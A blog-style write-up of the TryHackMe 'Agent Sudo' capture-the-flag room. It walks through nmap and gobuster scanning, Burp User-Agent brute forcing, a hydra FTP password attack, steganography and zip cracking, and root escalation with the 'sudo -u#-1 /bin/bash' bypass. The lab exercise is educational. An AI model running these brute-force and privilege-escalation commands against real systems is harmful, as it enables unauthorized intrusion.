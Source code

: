 ```yaml
---
layout: post
permalink: /posts/thm/agent-sudo
title: "Agent Sudo"
---
```


Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun! <br/>

Our enumeration process will start with our favourite tool nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/agent-sudo/nmap.png)

nmap result shows us that there is port 21 FTP, port 22 SSH and port 80 HTTP opened. Visit the website.

![website](/assets/images/thm/agent-sudo/website.png)

It looks we have to find a `codename`. Let's scan for hidden directories.

```
gobuster dir -u http://10.10.34.21/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

While we are waiting for the gobuster scan I tried to get in FTP with anonymous login but it wasn't successful.

![ftp-anonymous](/assets/images/thm/agent-sudo/ftp-anonymous.png)

Gobuster scan finished.

![gobuster](/assets/images/thm/agent-sudo/gobuster.png)

I tried with other wordlist but I wasn't able to find anything. It took me some time until I find a way to continue. This `user-agent` looked suspicious for me so I just googled it. I found out that the user-agent is HTTP header used to identify application and opertaion system. After some aditional research I found that we can change this user-agent. The tool that can help us is Burp Suite. We also need `codename`, actually Agent R probably should be a codename. Ctach the request with Burp and change the User-Agent.

![user-agent-r](/assets/images/thm/agent-sudo/user-agent-r.png)
 
Once we have changed the user-agent we can forward the request.

![website-r](/assets/images/thm/agent-sudo/website-r.png)
 
The other agents codename shoul be a letter too. Let's try payload attack with Burp. Send the request to Intruder, go to the position tab and set the position where payloads will be inserted by copy the desired place(in our case this is user-agent) and click add button

![payload-position](/assets/images/thm/agent-sudo/payload-position.png)

Now go to the payload tab and insert all letters.

![payloads](/assets/images/thm/agent-sudo/payloads.png)

Good. Let's start the attack.

![attack-result](/assets/images/thm/agent-sudo/attack-result.png)

We can notice that user-agent `R` and `C` has different length from the others. Try to change the user-agent with C.

![user-agent-c](/assets/images/thm/agent-sudo/user-agent-c.png)

this forwards us to the hidden site

![c-attention](/assets/images/thm/agent-sudo/c-attention.png)

![chris](/assets/images/thm/agent-sudo/chris.png)

I have finally found the agent name. Go and try to bruteforce the FTP server. 

```
hydra -l chris -P rockyou.txt 10.10.34.21 ftp
```

![hydra](/assets/images/thm/agent-sudo/hydra.png)

Log into the FTP server

```
ftp <ip>
```

![ftp](/assets/images/thm/agent-sudo/ftp.png)

You can use `get <FILE_NAME>` to download the files.

![txt](/assets/images/thm/agent-sudo/txt.png)

I know only one tool for image steganography, it's `exiftool`. Unfortunately this didn't help me. I searched for image steganography tools and found top 3 tool steghide, exiftool and binwalk. I have already tried exiftool so we will go and tried the others. Using steghide requered me a password.

![steghide-password](/assets/images/thm/agent-sudo/steghide-password.png)

So finger crossed for binwalk

```
binwalk cutie.png -e
```

![binwalk](/assets/images/thm/agent-sudo/binwalk.png)

To crack the zip password we are going to use John the Ripper. It has a perfect python script which will generate a hash and we are going to crack it after that.

```
zip2john 8702.zip > hash.txt
```

now use john to crack it

```
sudo john hash.txt
```

![john](/assets/images/thm/agent-sudo/john.png)

Let's extract the zip file

```
7z e 8702.zip
```

![7z](/assets/images/thm/agent-sudo/7z.png)

read the file

![7z-txt](/assets/images/thm/agent-sudo/7z-txt.png)

It looks like base64. Use `https://gchq.github.io/CyberChef/` or the following command `echo "QXJlYTUx" | base64 --decode` </br>

Let's try again steghide

```
steghide extract -sf cute-alien.jpg
```

![steghide](/assets/images/thm/agent-sudo/steghide.png)

![message](/assets/images/thm/agent-sudo/message.png)

SSH with james

```
ssh james@10.10.34.21
```

![james-ssh](/assets/images/thm/agent-sudo/james-ssh.png)

We have found the first flag but we also need to open the jpg file. You can downloads files through SSH with the following command

```
scp <USER_NAME>@<IP>:<FILE_NAME> <DESIRED_LOCATION_ON_YOUR_MACHINE>
```

![ssh-download](/assets/images/thm/agent-sudo/ssh-download.png)

Now we need to use reverse image to answer the next question. Use google search image and filter for foxnews site.

![google](/assets/images/thm/agent-sudo/google.png)

The last thing that we have to do is to escalate our privilege. I always first try with the command `sudo -l` to view whether we are able to execute any commands with sudo permissions.

![sudo-l](/assets/images/thm/agent-sudo/sudo-l.png)

Wow, our user is able to run `/bin/bash` as any user excluding as root. We are going to use our best friend google. My search probably looks crazy but it worked.

![google-cve](/assets/images/thm/agent-sudo/google-cve.png)

Read through the report `https://www.exploit-db.com/exploits/47502` and escalate our privilege

```
sudo -u#-1 /bin/bash
```

![root](/assets/images/thm/agent-sudo/root.png)

Find the flag and answer the last question.

![final](/assets/images/thm/agent-sudo/final.png)

Woohoo... we were able to pass this room. Actually it was very tough for me but I learnt a lot from that challenge. 